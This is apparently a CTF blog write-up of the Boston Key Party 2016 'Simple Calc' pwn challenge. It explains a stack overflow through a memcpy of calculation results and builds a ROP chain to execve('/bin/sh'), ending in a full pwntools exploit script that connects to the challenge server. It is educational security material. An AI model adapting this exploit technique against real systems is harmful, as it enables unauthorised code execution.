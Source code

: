 ```yaml
---
layout: post
title:  "Boston Key Party - PWN 5 ‘Simple Calc’"
date:   2016-03-06
categories: ctf pwn
---
```


Running strings we see this is a x86_64 binary _statically compiled_, which should make things a lot easier for us.

{% highlight bash %}
vagrant@kali:/vagrant/ctfs/bostonkp2016$ file simplecalc
simplecalc: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=0x0676a83cc38d2b9b20c612f4d7a19255eaa93b52, not stripped
{% endhighlight %}

Running the application, with IDA open on the side to quickly get past any restriction, I see that this program simply takes some number of calculations and then for each it allows you to choose wish operation to perform and the two operands. Both operands must be greater than 39, and the input and result are 4 byte ints. There are 12 global variables, three for each operation, and one for each operand and the result, plus four bytes padding between each set to maintain alignment.

When you first choose how many calculation to make, an appropriately size buffer is `malloc`ed and the result of each is saved. If you decide to quit out early, then the buffer is `memcpy`d to a buffer on the stack, which gives us our stack smashing opportunity -- Just select more operations than the stack buffer can fit the results for. This will, however, overwrite the pointer to the alloc'd buffer, causing the `free` call to crash, but we can easily get around that: `free(0)` short circuits and returns, so all we need to do is overwrite the stack will nulls, which we can do by subtracting some number from itself.

Now that I have RIP, I need to exploit it. Stack is NX, and I can't find "/bin/*sh" in a static part of the binary, nor is there a `system`. This rules out ret2libc, and we will have to do a ROP.

This was my first non-trivial ROP (and some would argue it's still trivial), so I will go into how I did it.

First I needed to figure out how to make the syscall. I found some simple shellcode [here](http://imgur.com/HbgCv5u), and figured out what it was doing:

* Set AL to 0x3B
* Set RDX to NULL
* Set RDI to point to "/bin/sh\0"
* Set RSI to point to a pointer to "/bin/sh\0" followed by NULL.

Since we are on x86_64, this requires two 'operations' so that we write eight bytes. This also gives us another problem: The stack location is unpredictable, where do we put this arg array and string? Lucky for us, we have easily controllable global vars. Once we set up the ROP chain on the stack, we can re-run dummy operations to overwrite the global 'cache' of operands and results.

To do this I simply 'divided' "/bin" by "/sh\0", which puts "/bin/sh\0" at the `divv` symbol. For the array, it was a bit trickier: I needed something with 12 NULL bytes after (4 to cover the second half of the pointer, and 8 more for the second elements). Since `sub` was at the end, I could do this. I put the address of `divv` as both operands of a sub operation, which would result in a NULL result, plus the four bytes following would be NULL (since the section is .bss). Unfortunately I hit another problem: In practice, a symbol soon after the sub result, `_dl_tls_static_used` was set to 0x60. To get around this, I would need an extra ROP gadget to write over this value with 0.

In the end, I ended up with what I think is a pretty elegant solution:

{% highlight python %}
import struct

def write_addr(addr):
    return ADD + str(addr-40) + "\n" + "40\n" + NULL

# Commands
ADD = "1\n"
SUB = "2\n"
MUL = "3\n"
DIV = "4\n"
DONE = "5\n"
NULL = SUB+"40\n"+"40\n"
# Gadgets
POP_RDI = write_addr(0x00401b73)
POP_RAX = write_addr(0x0044db34)
POP_RDX = write_addr(0x00437a85)
POP_RSI = write_addr(0x00401c87)
MOV_EDX_TO_AT_RAX = write_addr(0x0044526f)
SYSCALL = write_addr(0x004648e5)
# Globals
addX = 0x6C4A80
addY = addX + 4
addRes = addY + 4
divX = addRes + 8
divY = divX + 4
divRes = divY + 4
mulX = divRes + 8
mulY = mulX + 4
mulRes = mulY + 4
subX = mulRes + 8
subY = subX + 4
subRes = subY + 4
_dl_tls_static_used = 0x6C4AC0

# Build commands
commands = [
    "100\n",  # Any large number
    NULL*18,  # Get to RA
    # Set _dl_tls_static_used to 0
    POP_RAX,
    write_addr(_dl_tls_static_used),
    POP_RDX,
    NULL, NULL,
    MOV_EDX_TO_AT_RAX,
    # Now get ready for syscall
    POP_RDI,
    write_addr(divX),  # divX holds the string "/bin/sh"
    POP_RAX,
    SUB + str(0x3b + 4096) + "\n" + "4096\n" + NULL,  # 0x3b = execve
    POP_RDX,
    NULL, NULL,  # RDX should be null
    POP_RSI,  # RSI should point to an array that has a pointer to "/bin/sh" and a null pointer
    write_addr(subY),
    SYSCALL,
    # Now we need to populate the global vars by running extra calcs
    # -- Put "/bin/sh" at addX
    DIV + str(struct.unpack("<I", b"/bin")[0]) + "\n",
    str(struct.unpack("<I", b"/sh\x00")[0]) + "\n",
    # -- Put pointer to divX at subY with null after
    SUB + str(divX) + "\n" + str(divX) + "\n",
    DONE
]

from pwn import *

r = remote("simplecalc.bostonkey.party", 5400)
garbage = r.recv()
r.send("".join(commands))
r.interactive()
{% endhighlight %}
